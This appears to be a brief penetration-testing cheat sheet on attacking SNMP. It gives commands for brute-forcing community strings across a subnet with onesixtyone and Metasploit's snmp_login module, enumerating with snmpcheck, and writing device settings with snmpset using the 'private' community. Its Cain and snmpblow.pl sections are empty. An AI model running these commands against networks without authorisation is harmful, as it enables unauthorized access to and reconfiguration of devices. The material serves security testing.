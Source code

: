 # Attack on SNMP protocol

## onesixtyone
```
genip 10.10.10.1-254 > hosts.txt
onesixtyone -c /usr/share/doc/onesixtyone/dict.txt -i hosts.txt
```

## Metasploit

```
msfconsole
use auxiliary/scanner/snmp/snmp_login
set RHOSTS 10.10.10.1-254
set VERBOSE false
set THREADS 4
exploit
```

## snmpcheck

```
snmpcheck -t {IP} -c {CommunityString}
```

## snmp RW

```
snmpset -v2c -c private 192.168.1.1 system.sysLocation.0 s "Foo"
snmpwalk -v2c -c private 192.168.1.1 system.syslocation.0
```

## Cain

...Windows...

## snmpblow.pl



